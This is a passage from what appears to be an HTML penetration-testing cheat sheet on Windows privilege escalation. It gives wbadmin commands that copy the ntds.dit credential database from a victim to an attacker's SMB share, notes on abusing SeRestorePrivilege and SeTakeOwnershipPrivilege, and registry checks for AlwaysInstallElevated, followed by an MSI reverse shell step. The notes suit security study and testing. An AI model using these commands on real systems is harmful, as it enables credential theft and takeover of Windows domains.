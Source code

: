                         </tr>
                        <tr>
                            <td>Start smb share</td>
                            <td>sudo systemctl restart smbd</td>
                        </tr>
                    </table>
                </td>
            </tr>
            <tr>
                <td>Backup ntds file from victim</td>
                <td>echo y | wbadmin start backup -backuptarget:\\&lt;ip address&gt;\share -include:C:\windows\ntds\</td>
            </tr>
            <tr>
                <td>extract contents of .vhdx on victim (using attacker SMB share)</td>
                <td>
                    <li>echo y | wbadmin start recovery -version:&lt;version&gt; -itemtype:file -items:C:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl</li>
                    <li>Get version</li>
                    <ul>
                        <li>victim: "wbadmin get versions"</li>
                        <ul>
                            <li>Version identified:&lt;version&gt;</li>
                        </ul>
                    </ul>
                    <li>ntds.dit should be in C:\</li>
                </td>
            </tr>
        </table>
    </ul>

    <li>SeRestorePrivilege</li>
    <ul>
        <li>Grants write access to all objects on the system regardless of ACL</li>
        <li>Modify service binaries</li>
        <li>Overwrite DLLs used by SYSTEM processes</li>
        <li>Modify registry settings</li>
    </ul>

    <li>SeTakeOwnershipPrivilege</li>
    <ul>
        <li>Lets the owner take ownership over an object</li>
        <li>Same as SeRestorePrivilege after taking ownership of files</li>
    </ul>
    <li>More reading on token abuse: https://github.com/hatRiot/token-priv/blob/master/abusing_token_eop_1.0.txt</li>

    <br>

    <h2>Always Install Elevated</h2>
    <li>Check if enabled</li>
    <ul>
        <li>HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer</li>
        <ul>
            <li>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated</li>
        </ul>
        <li>HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer</li>
        <ul>
            <li>reg query HKLM\software\policies\microsoft\windows\installer /v alwaysinstallelevated</li>
        </ul>
        <li>Create msi reverse shell and execute it</li>
    </ul>
